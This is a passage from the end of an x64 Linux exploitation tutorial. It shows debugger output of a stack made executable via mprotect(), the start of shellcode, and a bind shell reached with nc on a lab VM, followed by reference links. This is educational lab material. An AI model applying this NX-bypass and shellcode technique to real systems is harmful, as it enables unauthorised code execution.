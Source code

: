 ```
AFTER
[0x7fffffffdf2b]> dm
x-gnu/libc-2.27.so
0x00007ffff7dcf000 # 0x00007ffff7dd3000 - usr    16K s -rw- unk0 unk0
0x00007ffff7dd3000 # 0x00007ffff7dfc000 - usr   164K s -r-x /lib/x86_64-linux-gnu/ld-2.27.so /lib/x86_64-linux-gnu/ld-2.27.so ; map.lib_x86_64_linux_gnu_ld_2.27.so._r_x
0x00007ffff7fdf000 # 0x00007ffff7fe1000 - usr     8K s -rw- unk1 unk1
0x00007ffff7ff8000 # 0x00007ffff7ffb000 - usr    12K s -r-- [vvar] [vvar] ; map.vvar_._r
0x00007ffff7ffb000 # 0x00007ffff7ffc000 - usr     4K s -r-x [vdso] [vdso] ; map.vdso_._r_x
0x00007ffff7ffc000 # 0x00007ffff7ffd000 - usr     4K s -r-- /lib/x86_64-linux-gnu/ld-2.27.so /lib/x86_64-linux-gnu/ld-2.27.so ; map.lib_x86_64_linux_gnu_ld_2.27.so._rw
0x00007ffff7ffd000 # 0x00007ffff7ffe000 - usr     4K s -rw- /lib/x86_64-linux-gnu/ld-2.27.so /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffe000 # 0x00007ffff7fff000 - usr     4K s -rw- unk2 unk2 ; map.unk0._rw
0x00007ffffffde000 # 0x00007ffffffff000 * usr   132K s -rwx [stack] [stack] ; rdi
0xffffffffff600000 # 0xffffffffff601000 - usr     4K s ---x [vsyscall] [vsyscall] ; map.vsyscall_.___x
``` 
And after mprotect() we jump to our shellcode:
```
[0x7fffffffdf2b]> pd 10
            ;-- rip:
            0x7fffffffdf2b      cc             int3
            0x7fffffffdf2c      cc             int3
            0x7fffffffdf2d      cc             int3
            0x7fffffffdf2e      cc             int3
            0x7fffffffdf2f      cc             int3
            0x7fffffffdf30      cc             int3
            0x7fffffffdf31      cc             int3
            0x7fffffffdf32      4831c0         xor rax, rax
            0x7fffffffdf35      4831d2         xor rdx, rdx
            0x7fffffffdf38      4831f6         xor rsi, rsi
[0x7fffffffdf2b]> 
```
And the bind shell starts to work:
```
lab@lab-VirtualBox:~/exploit-pattern$ nc 127.0.0.1 5600
ls

LICENSE.md
README.md
exploit.py
```
  
See you soon :)

#### References

[ch0pin blog](https://valsamaras.medium.com/introduction-to-x64-linux-binary-exploitation-part-3-rop-chains-3cdcf17e8826)
[syrion blog](https://syrion.me/blog/elfx64-bypass-nx-with-mprotect/)
[calling convention](https://aaronbloomfield.github.io/pdr/book/x86-64bit-ccc-chapter.pdf)
